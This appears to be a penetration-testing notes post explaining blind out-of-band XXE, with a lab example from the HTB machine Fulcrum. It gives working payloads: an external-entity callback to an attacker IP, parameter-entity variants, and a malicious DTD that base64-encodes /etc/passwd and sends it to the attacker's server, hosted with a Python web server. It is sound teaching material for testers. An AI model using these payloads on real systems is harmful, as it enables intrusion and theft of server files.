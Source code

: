 ```yaml
---
description: >-
  XXE Blind Out of Band
title:  XXE Blind Out of Band             # Add title here
date: 2023-02-06 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, XXE Blind Out of Band]                     # Change Templates to Writeup
tags: [exploitation, xxe blind out of band, xxe]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Detection
You can often detect blind XXE using the same technique as for [XXE SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks) but triggering the out-of-band network interaction to a system that you control. For example, you would define an external entity as follows:
```bash
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://10.10.14.3"> ]>

<Heartbleed>
<Ping>&xxe;</Ping>
</Heartbleed>
```
![Description](/assets/img/Pasted image 20230206005533.png)

In this case we receive a request on our web server:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.62 - - [06/Feb/2023 06:50:04] "GET / HTTP/1.0" 200 -
```

### Input Validation Bypass
Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

```bash
<!ENTITY % myparameterentity "my parameter entity value" >
```

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

```bash
%myparameterentity;
```

### External Entities using Out of Band exploitation
This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

```bash
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://10.10.14.3"> %xxe; ]>
```
![Description](/assets/img/Pasted image 20230206005654.png)

Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

An example of a malicious DTD to exfiltrate the contents of the `/etc/passwd` file is as follows:
![Description](/assets/img/Pasted image 20230206005910.png)

```bash
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY filename SYSTEM 'http://10.10.14.3/%file;'>">
```

This DTD carries out the following steps:

- Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file with a wrapper to encode the payload as base64.
- Defines an XML parameter entity called `param1`, containing a dynamic declaration of another XML parameter entity called `filename`. The `filename` entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the `file` entity within the URL query string.
- Uses the `param1` entity, which causes the dynamic declaration of the `filename` entity to be performed.
- Uses the `filename` entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:

```bash
http://10.10.14.3/structure.xml
# Python web server:
python3 -m http.server 80
```

Finally, the attacker must submit the following XXE payload to the vulnerable application:
```bash
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/structure.xml"> %xxe; %param1;]>

<Heartbleed>
<Ping>&filename;</Ping>
</Heartbleed>
```
![Description](/assets/img/Pasted image 20230206013133.png)
Examples:
[Fulcrum](https://shuciran.github.io/posts/Fulcrum/#fnref:blind-xxe)

### References
Reference: [Finding and exploiting blind XXE vulnerabilities](https://portswigger.net/web-security/xxe/blind)

